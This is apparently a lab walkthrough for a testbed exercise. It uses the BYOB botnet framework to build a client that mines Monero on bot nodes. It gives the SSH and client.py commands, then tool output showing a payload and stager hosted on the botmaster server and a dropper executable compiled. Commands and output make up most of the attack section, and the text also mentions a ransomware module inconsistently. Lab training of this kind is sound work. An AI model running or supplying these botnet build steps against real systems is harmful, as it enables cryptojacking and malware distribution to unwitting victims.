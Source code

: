 ## Mining Attack
Botmaster (`botmaster` in our case) uses bot nodes (`b1` in our case)to mine Monero cryptocurrency. 

### Connection with client

We will use the `botmaster` node to generate a client. The client will have a ransomware
module built into it.

SSH to the botmaster node from your XDC
```shell
ssh botmaster
```

```shell
cd /opt/byob/byob.git/byob
python3 client.py --freeze botmaster.infra 1337 miner
```
The output should look like this:

```shell


88                                  88
88                                  88
88                                  88
88,dPPYba,  8b       d8  ,adPPYba,  88,dPPYba,
88P'    "8a `8b     d8' a8"     "8a 88P'    "8a
88       d8  `8b   d8'  8b       d8 88       d8
88b,   ,a8"   `8b,d8'   "8a,   ,a8" 88b,   ,a8"
8Y"Ybbd8"'      Y88'     `"YbbdP"'  8Y"Ybbd8"'
                d8'
               d8'


[>] Modules
        Adding modules...  -[-] can't add module: 'exfiltrate' (does not exist)
(4 modules added to client)

[>] Imports
        Adding imports...-(32 imports from 4 modules)

[>] Payload
        Uploading payload...  -(hosting payload at: http://botmaster.infra:1338/clients/payloads/jIJ.py)

[>] Stager
        Uploading stager... -(hosting stager at: http://botmaster.infra:1338/clients/stagers/jIJ.py)

[>] Dropper
        Writing dropper...  (355 bytes written to /modules/clients/droppers/byob_jIJ.py)
        Compiling executable...
91 INFO: PyInstaller: 6.4.0, contrib hooks: 2024.1
91 INFO: Python: 3.9.2
.
.
.
19652 INFO: Appending PKG archive to custom ELF section in EXE
19714 INFO: Building EXE from EXE-00.toc completed successfully.
(22,541,192 bytes saved to file: /opt/byob/byob/dist/jIJ)
```


[wallet 42Mt2H]: address